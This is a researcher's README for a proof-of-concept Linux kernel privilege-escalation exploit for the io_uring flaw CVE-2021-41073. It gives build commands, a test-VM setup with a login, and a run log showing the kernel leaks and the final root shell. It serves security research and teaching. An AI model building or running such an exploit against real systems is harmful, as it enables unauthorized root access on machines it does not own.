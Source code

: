 # Linux_LPE_io_uring_CVE-2021-41073

LPE exploit for CVE-2021-41073 io_uring type confusion vulnerability. 

Checkout the writeup [Put an io_uring on it: Exploiting the Linux Kernel](https://www.graplsecurity.com/post/iou-ring-exploiting-the-linux-kernel).

author: [@chompie1337](https://twitter.com/chompie1337)


**For educational/research purposes only. Not for use on testing or security evaulations.**

To build (requires [liburing](https://github.com/axboe/liburing)):

```
gcc -o hello hello.c -Wall -std=gnu99 `pkg-config fuse --cflags --libs`
gcc -I include/ -o exploit exploit.c bpf.c -l:liburing.a -lpthread
```

I've provided a [test VM](https://www.dropbox.com/s/lhmpzvhl8mdszc8/test_vm.tar.xz?dl=0) with a 5.15-rc1 kernel for testing/running the exploit. 

To start VM, extract [test_vm archive](https://www.dropbox.com/s/lhmpzvhl8mdszc8/test_vm.tar.xz?dl=0) and run: 
```
qemu-system-x86_64  -m 2G  -smp 2  -kernel /path/to/repo/Linux_LPE_io_uring_CVE-2021-41073/test_vm/bzImage    -append "console=ttyS0 root=/dev/sda earlyprintk=serial net.ifnames=0"     -drive file=/path/to/repo/Linux_LPE_io_uring_CVE-2021-41073/test_vm/stretch.img,format=raw -net user,host=10.0.2.10,hostfwd=tcp:127.0.0.1:10021-:22 -net nic,model=e1000 -nographic  -pidfile vm.pid 2>&1 | tee vm.log
```

ssh into the box as unprivileged user:

```ssh -p 10021 hi@localhost```
password: lol

To run:
```
$ ./exploit
[+] set/getxattr file created
[+] bpf program loaded created
[+] FUSE maps created
[+] opened /proc/self/maps
[+] io_uring initialized
[+] spraying kmalloc-32 cache with io_buffer structs!!
[!] vuln trigger #1 for task_struct leak
[+] task_struct: ffff90740554c4c0
[!] vuln trigger #2 for KASLR leak 
[!] single_next: ffffffffb2064520
[!] vuln trigger #3 for cache ptr leak
[+] fake bpf_prog: ffff9074056aacb0
[!] vuln trigger #4 to overwrite socket filter
[+] it worked! have a r00t shell :)
```

Sometimes needs 3-4 attempts to get through entire exploit sequence. Reboot the VM after each exploit attempt time. Future work can be done to improve this exploit, techniques are provided in the writeup. Releasing the PoC for the strict purpose of sharing knowledge with other researchers, and those who want to learn about **advanced kernel exploitation**.

This exploit is a **PROOF OF CONCEPT** for the techniques discussed in the blog post, and achieve local privilege escalation of the Linux Kernel 5.15-rc-1 with default configurations. It is NOT my intent to tailor an exploit and weaponize it to work with every affected version of Linux. I've provided the code to demonstrate most of the discussed techniques, and have created and documented the techniques needed to bypass various mitigations that some distributions may enable in the accompanying blog post. 

The kernel configurations used in the provided testing VM are in the test_vm folder if you'd like to work with a custom built kernel. If you want to contribute, pull requests are welcome :)

This research was sponsered by [Grapl](https://www.graplsecurity.com/).
